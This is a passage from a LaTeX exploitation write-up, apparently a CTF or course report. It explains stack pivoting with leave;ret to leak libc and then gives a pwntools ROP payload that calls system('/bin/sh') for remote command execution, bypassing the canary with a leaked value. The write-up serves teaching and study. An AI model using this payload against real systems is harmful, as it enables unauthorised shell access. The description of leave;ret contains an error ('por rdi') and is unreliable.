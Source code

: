     By doing this, when we go to call the return we will perform a stack pivoting so we will move the stack and we will correctly leak the contents of the libc.\newline
    The call that will allow us to do stack pivoting is the leave ret call that is made every time we exit a function.\newline
    Leave ret executes the following instructions mov rsp,rbp; pop rbp; por rdi;\newline
    Subsequently, we will perform the same attack but instead of leaking libc we will perform remote command execution, following is the code that allowed us to launch this attack.\newline
    \begin{verbatim}
    payload2=flat(
        p64(pop_rdi), #start of the rop 
        p64(binsh+base),#address of bin sh + base
        p64(system+base), #address of system + base
        b'A'*32, #fill the remaining space of the buffer
        p64(real_canary), # send the canary to bypass the canary mitigation
        p64(target_bp2),# send the target base pointer 
    )   
    \end{verbatim}
    We will call as return address a call to system("/bin/sh").\newline
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=0.5\linewidth]{Images/rce_stack_chall.png}
        \caption{Remote Comand execution.}
        \label{fig:enter-label}
    \end{figure}
    \newpage